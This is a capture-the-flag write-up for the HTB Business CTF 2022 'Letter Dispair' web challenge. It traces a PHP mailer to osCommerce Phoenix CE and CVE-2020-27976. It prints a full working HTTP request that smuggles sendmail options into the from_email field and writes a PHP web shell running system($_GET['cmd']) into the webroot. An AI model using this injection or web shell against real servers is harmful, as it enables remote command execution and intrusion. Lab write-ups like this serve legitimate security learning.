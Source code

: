 ```yaml
---
date: 2022-07-18
authors:
  - techbrunch
tags:
  - CTF
categories:
  - web
description: We need access to the server to read the logs and find out the actual perpetrator. Can you help?
---
```


# HTB Business CTF 2022 - Letter Dispair

> A high-profile political individual was a victim of a spear-phishing attack. The email came from a legitimate 
> government entity in a nation we don't have jurisdiction. However, we have traced the originating mail to a government
> webserver. Further enumeration revealed an open directory index containing a PHP mailer script we think was used to 
> send the email. We need access to the server to read the logs and find out the actual perpetrator. Can you help?

<!-- more -->

In the webroot we can see a mailer.php and a mailer.zip containing the source code. Reviewing the source code does not 
reveal any obvious vulnerabilities.

Let's think outside the box for a minute. While not that big, the code does not look like it was written specifically for
this CTF.

There could be two options:

- The vulnerability was introduced into existing code to create the challenge
- The vulnerability was found in a real application

Let's see if we can find the original code. A [quick search](https://cs.github.com/?scopeName=All+repos&scope=&q=%22%24images_dir%24html_image%22) 
on the new [GitHub search](https://cs.github.com/) for `$images_dir$html_image` reveals
the [original source](https://cs.github.com/gburton/CE-Phoenix/blob/43c52c27af71ce48a35a77daa78ff640e65bbc33/includes/system/versioned/1.0.4.5/email.php?q=%22%24images_dir%24html_image%22#L121). 
The vulnerable code comes from the Community Edition of Phoenix a fork of [OsCommerce](OsCommerce), an e-commerce and 
online store-management software program

Let's see if there are known vulnerabilities for osCommerce. There is one rated 10/10 that looks like it fits [CVE-2020-27976](https://www.cvedetails.com/cve/CVE-2020-27976/):

>  osCommerce Phoenix CE before 1.0.5.4 allows OS command injection remotely. Within admin/mail.php, a from POST 
> parameter can be passed to the application. This affects the PHP mail function, and the sendmail -f option.

Another search on GitHub leads to a [POC for CVE-2020-27976](https://github.com/k0rnh0li0/CVE-2020-27976) that can be used to upload a webshell that was then used to read the FLAG:

```
POST /mailer.php HTTP/1.1
Host: 178.62.26.185:30977
Content-Length: 854
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://178.128.168.214:32106
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary1zAk5EgmTo1AA34o
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://178.128.168.214:32106/mailer.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

------WebKitFormBoundary1zAk5EgmTo1AA34o
Content-Disposition: form-data; name="from_email"

test@localhost -OQueueDirectory=/tmp -X/var/www/html/poc.php
------WebKitFormBoundary1zAk5EgmTo1AA34o
Content-Disposition: form-data; name="from_name"

Ministry
------WebKitFormBoundary1zAk5EgmTo1AA34o
Content-Disposition: form-data; name="subject"

<?php echo "Shell";system($_GET['cmd']); ?>
------WebKitFormBoundary1zAk5EgmTo1AA34o
Content-Disposition: form-data; name="email_body"

Dear ^emailuser^, ...
------WebKitFormBoundary1zAk5EgmTo1AA34o
Content-Disposition: form-data; name="email_list"

test@1cedpwwkwg7n80ci7fainnoib9hz5o.oastify.com
------WebKitFormBoundary1zAk5EgmTo1AA34o
Content-Disposition: form-data; name="attachment"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundary1zAk5EgmTo1AA34o--
```
